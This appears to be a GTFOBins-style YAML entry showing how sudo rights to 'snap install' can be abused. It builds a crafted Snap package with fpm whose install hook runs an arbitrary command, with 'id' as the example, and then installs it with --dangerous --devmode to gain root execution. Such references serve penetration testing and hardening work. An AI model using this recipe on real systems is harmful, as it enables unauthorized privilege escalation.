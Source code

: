 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted Snap package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        # install fpm
        sudo gem install fpm
        
        COMMAND=id
        cd $(mktemp -d)
        mkdir -p meta/hooks
        printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
        chmod +x meta/hooks/install
        fpm -n xxxx -s dir -t snap -a all meta
        ```
      code: |
        sudo snap install xxxx_1.0_all.snap --dangerous --devmode
---
```

